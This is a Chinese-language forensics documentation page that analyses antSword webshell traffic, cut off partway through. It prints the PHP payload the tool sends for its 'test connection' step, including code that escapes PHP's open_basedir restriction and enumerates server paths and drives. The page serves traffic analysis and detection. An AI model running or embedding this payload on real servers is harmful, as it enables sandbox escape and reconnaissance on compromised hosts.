

repository: Randark-JMT/Treasure-House · page: docs/Forensic/Traffic-Forensic/Webshell/antSword-Operation/index.html · generator: docusaurus

# antSword 蚁剑 操作 流量解析

## 测试连接

![antSword 测试连接](img/image_20231116-221635.png)

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split("/;|:/", $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        };
        $tmdir = $item . "/.b2d3d8e63";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        };
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    };
};;
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "da" . "769";
    echo @asenc($output);
    echo "1bc" . "f96b";
}
ob_start();
try {
    $D = dirname($_SERVER["SCRIPT_FILENAME"]);
    if ($D == "") $D = dirname($_SERVER["PATH_TRANSLATED"]);
    $R = "{$D}";
    if (substr($D, 0, 1) != "/") {
        foreach (range("C", "Z") as $L) if (is_dir("{$L}:")) $R .= "{$L}:";
    } else {
        $R .= "/";
    }
    $R .= "	";
    $u = (function_exists("posix
